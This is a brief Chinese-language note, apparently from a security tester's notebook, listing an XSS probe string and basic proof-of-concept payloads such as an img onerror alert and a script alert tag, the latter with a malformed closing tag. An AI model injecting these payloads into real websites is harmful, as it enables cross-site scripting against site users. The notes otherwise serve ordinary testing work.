 ### xss探针

```
xss探针:';`"><aaa bbb=ccc>ddd<aaa/>
```

```
payload(这里由于可以控制标签，优先使用<img><script>):
对于<img src=x onerror=alert(1)>
```

```
<script>alert(1)<script>
```

